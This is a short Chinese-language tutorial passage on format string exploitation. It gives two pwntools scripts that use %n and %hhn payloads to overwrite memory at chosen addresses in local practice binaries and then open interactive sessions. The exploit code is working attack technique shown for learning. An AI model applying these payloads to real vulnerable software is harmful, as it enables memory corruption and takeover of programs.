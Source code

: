 #### 覆盖任意地址内存
##### 覆盖小数字
```python
def fora():
    sh = process('./overflow')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
##### 覆盖大数字
```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forb()
```